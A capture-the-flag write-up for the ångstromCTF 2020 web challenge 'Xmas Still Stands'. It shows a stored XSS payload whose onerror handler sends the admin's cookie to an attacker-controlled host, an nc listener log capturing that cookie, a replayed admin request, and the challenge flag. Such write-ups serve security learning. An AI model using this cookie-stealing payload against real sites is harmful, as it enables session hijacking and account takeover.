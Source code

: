 # ångstromCTF 2020 – Xmas Still Stands

* **Category:** web
* **Points:** 50

## Challenge

> You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the Anti Xmas Warriors to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?
> 
> Author: aplet123
> 
> https://xmas.2020.chall.actf.co/

## Solution

The title reminds the XSS vulnerability.

The `https://xmas.2020.chall.actf.co/post` page can be used to post a message with an XSS attack. For example using an `img` tag like the following.

```html
<img src="foo.png" onerror="document.location='http://x.x.x.x:1337?c='+document.cookie;" />
```

The website will return a code that can be used to identify the posted message.

The resulting code can be sent to administrator via `https://xmas.2020.chall.actf.co/report` page.

On a server listening with `nc`, you will receive the admin cookies.

```
ubuntu@server:~$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from ec2-52-207-14-64.compute-1.amazonaws.com 48884 received!
GET /?c=super_secret_admin_cookie=hello_yes_i_am_admin;%20admin_name=Jamie HTTP/1.1
Host: x.x.x.x:1337
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Jamie's browser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://127.0.0.1:3000/posts/642
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Then the cookie can be used to perform a request to `https://xmas.2020.chall.actf.co/admin` page.

```
GET /admin HTTP/1.1
Host: xmas.2020.chall.actf.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: super_secret_admin_cookie=hello_yes_i_am_admin;%20admin_name=Jamie
Referer: https://xmas.2020.chall.actf.co/admin
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Content-Length: 2905
Content-Type: text/html; charset=utf-8
Date: Mon, 16 Mar 2020 00:07:35 GMT
Etag: W/"b59-k/yKe0HiO0ZF+89xBSA/dXuyjnQ"
Server: Caddy
Server: nginx/1.14.1
X-Powered-By: Express
Connection: close

<!doctype html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    
        <link rel="stylesheet" href="/bootstrap.css">
        <link rel="stylesheet" href="/style.css">
    
        <title>Anti-Xmas Warriors</title>
    
        <script defer src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script>
        <script defer src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>
        <script defer src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
    </head>
    <body>
        <nav class="navbar navbar-expand-lg navbar-dark bg-primary">
            <a class="navbar-brand" href="/">Anti-Xmas Warriors</a>
            <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation">
                <span class="navbar-toggler-icon"></span>
            </button>
            
            <div class="collapse navbar-collapse" id="navbarSupportedContent">
                <ul class="navbar-nav mr-auto">
                    <li class="nav-item">
                        <a class="nav-link" href="/">Home</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="/post">Post</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="/report">Report</a>
                    </li>
                    <li class="nav-item">
                        <a class="nav-link" href="/admin">Admin</a>
                    </li>
                </ul>
            </div>
        </nav>        <div class="container mx-auto text-center partial-width pt-2">
    <h1 class="display-4">Admin Landing Page</h1>
    <p>Hey admins, you may have noticed that we've changed things up a bit. There's no longer any cumbersome, bruteforceable login system. All you need is the secret cookie verifying that you're an admin and you can get the flag anytime you want. Also, if you're not an admin PLEASE LEAVE THIS PAGE YOU DON'T BELONG HERE AND I WILL HUNT YOU DOWN AND RUIN YOUR DAY IF YOU STAY HERE. Disclaimer: I will not actually hunt you down or physically hurt you in any way, shape, or form, please don't sue me thanks.</p>
        <p>Oh hey admin! The flag is actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}.</p>
</div>
    </body>
</html>
```

The flag is the following.

```
actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}
```